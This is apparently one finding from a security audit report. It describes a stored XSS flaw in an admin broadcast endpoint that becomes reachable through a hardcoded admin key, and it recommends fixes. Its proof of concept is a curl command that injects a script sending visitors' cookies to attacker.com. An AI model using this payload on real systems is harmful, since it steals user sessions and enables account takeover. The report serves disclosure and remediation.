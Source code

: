 \documentclass[twocolumn,10pt,letterpaper]{article}
\begin{document}
\paragraph{Description}

The \texttt{/\allowbreak api/\allowbreak admin/\allowbreak broadcast} endpoint accepts a \texttt{message} field with no sanitization. The \texttt{AdminBroadcast} Pydantic model has no validators on the message field. The broadcast message is rendered in the feed panel via innerHTML at line 108 without escaping.


This vulnerability is compounded by SA-004 (hardcoded admin key). Because the default admin key \texttt{ads-} is publicly documented, any unauthenticated attacker can send broadcast messages with XSS payloads.


\paragraph{Proof of Concept}

\begin{lstlisting}
curl -s -X POST https://demo.discoveryatscale.com/api/admin/broadcast \
  -H "Content-Type: application/json" \
  -d '{
    "admin_key": "ads-2026",
    "message": "<script>document.location=\"https://attacker.com/steal?c=\"+document.cookie</script>"
  }'
\end{lstlisting}

\paragraph{Impact}

Same as SA-001, with the added concern that admin broadcast messages may receive heightened trust from dashboard viewers, making social engineering payloads more effective.


\paragraph{Recommendation}

\begin{enumerate}
\setlength{\itemsep}{0pt}
\setlength{\parskip}{0pt}
  \item Escape broadcast message content before rendering (client-side)
  \item Add server-side validation to strip HTML from broadcast messages
  \item Fix the hardcoded admin key (SA-004) to prevent unauthenticated broadcast access
\end{enumerate}
\end{document}
